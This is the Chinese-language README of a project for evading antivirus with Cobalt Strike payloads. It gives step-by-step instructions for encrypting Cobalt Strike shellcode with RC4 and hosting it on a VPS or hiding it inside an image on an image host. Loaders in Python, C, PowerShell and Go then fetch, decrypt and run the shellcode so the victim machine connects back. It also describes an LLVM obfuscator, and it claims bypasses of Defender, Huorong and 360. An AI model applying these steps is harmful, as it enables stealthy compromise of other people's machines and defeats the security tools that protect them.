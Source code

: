 # CS-Avoid-killing
总的来说，通过应用程序的二进制特征字符串来进行恶意软件的识别仍然是杀软最常使用的静态分析方式，而动态分析（沙箱、虚拟机等）的查杀可以通过反调试、反沙箱等技术绕过，所以尽量减少恶意程序的二进制特征仍是避免被查杀的重要手段。

CS免杀,包括python版和C版本的(经测试Python打包的方式在win10上存在bug,无法运行,Win7测试无异常)

除了使用特定语言来混淆二进制特征外，也可以实现一个通用的混淆器来对任意程序实现二进制层面的混淆。本项目实现的通用混淆器是一款基于 LLVM-17 的混淆器，它利用 LLVM 的新的pass实现插件功能，可以实现对多种语言和平台的代码混淆。

- V4.0: 实现了一个通用的代码混淆器，借助LLVM可以实现对任意程序的二进制的混淆，理论来说是一种对抗杀软静态扫描的通用方法。该混淆器是在obfuscator的基础上进行重写的，参考：https://github.com/obfuscator-llvm/obfuscator

- V3.1: 增加了go版本(可过火绒/360/defender)

- V3.0: 想办法结合更多免杀技术(想去研究下进程注入/文件捆绑,不知道免杀效果怎样)

- V2.0: 开发成在线免杀平台(已完成)

    > PS: 在实际使用中发现图形化界面不利于和其他工具结合,相比之下命令行的方式更具有扩展性
    > 
    > 关于自己写的在线免杀平台,暂不考虑开源,主要是觉得目前的技术还比较薄弱,如果有师傅想体验可以联系我

- ~~V2.0:开发出UI界面~~

- V1.7:加入Powershell的免杀(已完成)

- V1.5: 加入C版本CS免杀(已完成)

- V1.0: 目前测试可以过Defender/火绒的静杀+动杀,360还没测= =不想装360全家桶了,可以自行测试


## 依赖环境

Generic Obfuscator:

- 使用下列命令安装llvm-17：
```
git clone --depth 1 -b release/17.x https://github.com/llvm/llvm-project.git
mkdir build
cmake -G Ninja -DLLVM_ENABLE_PROJECTS="clang;lld" -DLLVM_TARGETS_TO_BUILD="X86;ARM;AArch64" -DCMAKE_BUILD_TYPE=Release -DLLVM_INCLUDE_TESTS=OFF -DLLVM_ENABLE_RTTI=ON -DLLVM_OBFUSCATION_LINK_INTO_TOOLS=
ON -DCMAKE_INSTALL_PREFIX=./build/ ../llvm-project/llvm
ninja -j8
ninja install
```

Python: 

- python2
- pyinstaller
- requests

C: VS2019默认就够了

Powershell: Win10上测试没有问题,也就是ps5.1,更低版本未测试

Go: go

## 安装

其他版本是便携使用的，只需要克隆项目即可。
`git clone https://github.com/Gality369/CS-Avoid-killing.git`

Generic Obfuscator需要额外的安装：
```
cd Generic_obfuscator
mkdir build
cd build
cmake ..
make -j `nproc`
```

## 使用

1. 先通过CS生成C格式的shellcode:` Attacks -> packages -> Payload Generator `选择一个listener然后生成一个C的shellcode(其实就是二进制代码)

2. Python版:

   > 1. 将生成的shellcode填入generator.py的shellcode变量中,填入一个Key,用于后续的RC4加密
   > 2. 运行generator.py,生成的payload自动保存在payload.txt中.
   > 3. 将payload.txt上传到你的VPS中,后续生成的加载器会从VPS中获取加密shellcode并在本地解密后执行
   > 4. 将在VPS上的payload路径填入PyLoader.py的url变量中,填入你刚刚设置的Key
   > 5. 用`python pyinstaller.py -F -w PyLoader.py`打包文件,可执行文件在pyshellcode文件夹下的dist中,双击运行可以看到主机上线

3. C版本:

   > 1. 按要求填入你自己的Key,shellcdoe长度和shellcode,执行
   > 2. 将第一行的数字复制进Loader的Base64ShellLen字段中,将第二行生成的加密shellcode保存在payload.txt文件中并将其放在服务器上(~~如果不叫这名或者不在跟路径,需要自己改`char request[1024] = "GET /RC4Payload32.txt HTTP/1.1\r\nHost:";`中的路径)
   > 在path中填入可以访问到payload的路径即可(Ex: /test/payload.txt)
   > 3. 在Loader中填入自己的Key和VPS的IP,编译
   > 4. 执行编译出的exe,CS上线
   
4. Powershell版本:

   > 1. 在CS中生成Powershell版本的payload.ps1
   > 2. Python3 PSconfusion.py payload.ps1 AVpayload.ps1
   > 3. 经测试能过目前所有杀软的静杀,动杀的话,由于CS中有些模块不免杀,所以加载这些模块时可能会触发动杀,这个以后再研究怎么绕过
   
5. go版本:

   > 1. 将一张不要太大的图片放入同一文件夹下
   > 2. 将生成的shellcode填入generator.py的shellcode变量中, 执行`python generator YourRC4key ImageName` ,生成的shellcode会自动追加到图片末尾
   > 3. 将图片上传至图床(找那种不会压缩的图床,保证shellcode不会被删掉)
   > 4. 将图片url和你的RC4key填入CS-Loader.go的相应位置
   > 5. 使用命令`go build -ldflags="-H windowsgui" CS-Loader.go`生成exe,可以用upx压缩下
   > 6. 执行exe,CS上线

6. 通用混淆器版本：
   
   > 1. 设置配置文件(`config/config.json`)来使能不同的混淆功能和基本配置
   > 2. 执行`<your-clang-17> -fpass-plugin=<your-generic_obfuscator.so>`

## 注意

1. pyinstaller安装细节

   > 最后一个支持python2的版本是3.6(最新版pyinstall不再支持python2)
   >
   > 网址:https://github.com/pyinstaller/pyinstaller/releases
   >
   > 需要安装pywin32:https://github.com/mhammond/pywin32

2. ~~目标是什么环境就在什么环境上打包,否则可能会出现无法上线的情况,不推荐使用py3对项目进行改造,ctypes对py3的支持不太好,会有些莫名其妙的bug~~
    感谢KingSF5师傅对python3版本的修复(崇拜~)

3. 经过测试,C版本在X86Debug模式编译下无任何问题,Release模式下会存在莫名bug,在某些电脑上无法正常上线,请根据需求自行测试

4. 编译选项不要选择动态编译,否则可能会因为目标靶机上缺少相应dll而无法运行.

5. 加载ps脚本的方式这里不做讨论,有师傅已经总结的非常好了,请自行百度

6. go版本build前建议先`set GOARCH=amd64`,同时使用64位的shellcode,32位打包出来的程序会报一个在ntdll中找不到函数的错误,曾有人提问过:https://stackoverflow.com/questions/58649055/failed-to-find-rtlcopymemory-procedure-in-ntdll-dll-only-when-goarch-386

7. 有关Generic Obfuscator的详细说明请参考`Generic_obfuscator/README.md`, 这里提供了对该混淆器的详细说明和使用方法。